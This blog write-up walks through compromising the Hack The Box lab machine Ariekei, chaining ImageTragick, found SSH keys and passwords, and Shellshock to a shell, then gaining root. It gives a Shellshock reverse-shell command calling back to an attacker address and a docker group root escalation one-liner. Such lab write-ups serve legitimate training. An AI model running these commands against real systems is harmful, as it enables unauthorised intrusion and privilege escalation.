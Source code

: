 ```yaml
---
title: "Hack The Box - Ariekei"
tags: [linux,insane,shellshock,cgi-bin,imagetragick,docker containers,container,port 1022,docker abuse]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png)

→ Nginx on port 443 [ https ]

→ OpenSSH 7.2p2 ( Xenial ) port 22

→ OpenSSH 6.6.1p1 ( Trusty ) port 1022

## Enumerating HTTPS :

⇒ Found subdomains from SSL Certificate :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png)

⇒ **Enumerating beehive.ariekei.htb**
→ In headers we see ariekei-waf
→ Running gobuster we find :

**/blog**
**/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png)

→ Lets exploit using shellshock
Exploit : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

- It doesn't work because of the **WAF.**

→  The blog page doesn't have anything interesting

⇒ **Enumerating calvin.ariekei.htb**

→ Running gobuster we find :
**/upload**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png)

→ We use ImageTragick to exploit it :  
[https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic](https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic)

- First lets create .mvg file :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png)

→ We uploaded it and got an shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png)

## Pivoting to Bastion

⇒ In /commons directory there's an .secret directory which contains bastion ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png)

⇒ We ssh'ed into bastion as root [ Port 1022 ] :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png)

## Pivoting to Beehive

⇒ In **commons/container** folder we find **blog-test** ( **Beehive** ) folder. Enumerating the config files we find :

→ Its running on **172.24.0.2**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png)

→ We also found an password :

Password : **Ib3!kTEvYw6*P7s**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png)

⇒ We can use shellshock exploit now as we are on a different machine and WAF won't block it now.

→ Shellshock : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

**python [enox.py](http://enox.py/) payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=4444 pages=/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png)

→ We switched to root using the password we previously found.

→ We found spanishdancer user ssh keys in that user home folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png)

→ Cracked key password : **purple1**

⇒ SSH'ed in using spanishdancer ssh key  :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png)

***USER OWNED***

## Privilege Escalation to Root

→ We see that our user is in docker group. Lets abuse it to get root :

**docker run -v /:/mnt --rm -it bash chroot /mnt sh**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png)

***ROOTED***


